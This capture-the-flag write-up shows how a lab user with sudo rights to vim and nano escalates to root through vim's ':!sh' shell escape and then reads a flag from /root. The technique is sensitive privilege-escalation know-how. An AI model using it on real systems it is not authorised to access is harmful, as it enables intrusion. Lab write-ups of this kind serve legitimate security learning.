 # Escape from Santa House


![Alt text](image.png)

In this challenge we have four details provided:

1. User: **`elf`**
2. Pass: **`Christmas2023`**
3. Host: 10.10.8.61
4. Port: **`54733`** (it will change when docker container expires)

- A hint that the flag is in the **`/root`** folder
- A timer for the life of the docker container, when expired you will get a button to revert/reset it.

We have ~5 minutes to find the flag in the, so first thing is to connect with the given details:

```shell
ssh 10.10.8.61 -p 39957 -l elf   
elf@10.10.8.61's password: 
```

```
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-56-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Dec 20 20:11:26 2023 from 10.4.24.67
$
```


When connected I've decided to take a look arround

Let's see who we are and where is our home directory:

```shell
$ pwd && whoami
/home/elf
elf
```

Just normal structure.

Let's try to find some hidden items:

```shell
$ ls -a
.  ..  .cache  .local
```

Let's try to look deeper

```shell
$ find .
./.local
./.local/share
./.local/share/nano
./.cache
./.cache/motd.legal-displayed
```

No files no hidden data, let's try go as super user:
```shell
$ sudo find .
[sudo] password for elf: 
Sorry, user elf is not allowed to execute '/usr/bin/find .' as root on 7546eb54b93f.
```

One more try:
```shell
$ sudo su -
[sudo] password for elf: 
Sorry, user elf is not allowed to execute '/usr/bin/su -' as root on 7546eb54b93f.
```

So let's see what our user ***`elf`*** can do:

```shell
$ sudo -l
[sudo] password for elf: 
Matching Defaults entries for elf on 7546eb54b93f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User elf may run the following commands on 7546eb54b93f:
    (root) /usr/bin/vim
    (root) /usr/bin/nano
```

So this time we can see that our user ***`elf`*** can run two programs with root access:
- nano
- vim

This is very promising! Both tools are editors, so they can read files in root folder.

Even more since they have ***`root`*** access they can execute commands even fancier - a shell

The next is easy - find the location and read it! They have hinted that it's in /root folder

A quick search on the web tells us how ***`nano`*** and ***`vim`*** can browse folders and execute commands.

Next is easy:

- For ***`vim`*** you can open shell by entering this command ***`:!sh`***
- For ***`nano`*** CTRL+T execute commands and prints their results in the editor

I decided to go with ***`vim`***:

```shell
# pwd && whoami
/home/elf
root
```

Now I'm root and can do everything:

Open the /root folder, search and get the flag:
```shell
# cd /root
# ls -a
.  ..  .bash_history  .bashrc  .local  .profile  .vim  .viminfo  flagishere.txt
# cat flagishere.txt
MilestoneCTF{security-misconfigurations-make-Santa-sad}
```

There are other ways if you like working in ***`vim`*** but I hate that app :-)


